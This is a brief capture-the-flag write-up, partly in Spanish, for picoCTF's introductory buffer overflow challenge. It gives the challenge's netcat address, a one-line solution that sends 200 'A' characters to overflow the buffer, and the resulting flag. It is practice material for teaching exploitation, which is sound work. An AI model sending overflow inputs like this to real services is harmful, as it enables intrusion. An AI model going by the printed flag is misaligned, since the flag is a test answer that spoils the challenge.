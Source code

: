 ## Objetivo

Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c). Connect using: 

## Datos de Acceso al Nivel

`nc saturn.picoctf.net 54338`
## Solucion

```
└─$ nc saturn.picoctf.net 54338 <<< $(python3 -c "print('A'*200)") 
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

```

## Notas Adicionales



## Referencias

